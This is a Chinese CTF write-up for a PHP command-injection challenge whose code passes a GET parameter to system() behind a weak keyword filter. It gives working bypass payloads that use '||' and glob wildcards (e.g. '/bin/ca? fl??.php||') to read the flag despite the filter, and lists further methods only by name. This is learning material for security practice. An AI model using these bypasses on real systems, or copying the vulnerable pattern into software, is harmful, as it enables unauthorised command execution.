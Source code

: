 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:01
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

以及无输出



### 第一种

同样利用||绕过无输出

?匹配字符

```
?c=ls||
```

![image-20250403151546608](./assets/image-20250403151546608.png)

```
?c=/bin/ca? fl??.php||
```

![image-20250403151617774](./assets/image-20250403151617774.png)





### 第二种

利用?匹配命令，利用*匹配flag

```
?c=/bin/ca? fl*||
```

![image-20250403151648703](./assets/image-20250403151648703.png)







### 第三种

tac





### 第四种

cp





### 第五种

mv

